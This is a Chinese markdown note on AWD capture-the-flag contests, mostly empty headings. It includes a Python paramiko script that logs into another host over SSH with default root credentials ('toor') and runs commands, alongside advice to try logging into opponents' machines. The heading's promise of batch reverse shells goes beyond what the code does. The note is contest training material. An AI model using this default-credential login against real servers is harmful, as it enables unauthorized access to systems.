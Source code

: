 ​						

# web

## 基础知识：



## 十大漏洞：

### SQL注入：



## AWD

### 脚本：

#### 1.默认SSH密码批量反弹shell

官方在给出服务器密码时，很有可能是默认的，需要赶快修改自己的密码并尝试能不能登陆别人的靶机 

```python
#-*- coding:utf-8 -*-
import paramiko

ip = '192.168.1.137'
port = '22'
username = 'root'
passwd = 'toor'
# ssh 用户名 密码 登陆
def ssh_base_pwd(ip,port,username,passwd,cmd='ls'):
    port = int(port)
    ssh = paramiko.SSHClient()

    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    ssh.connect(hostname=ip, port=port, username=username, password=passwd)

    stdin,stdout,stderr = ssh.exec_command(cmd)

    result = stdout.read()
    if not result :
        print("无结果!")
        result = stderr.read()
    ssh.close()
    
    return result.decode()
    
a = ssh_base_pwd(ip,port,username,passwd)
print(a)
```
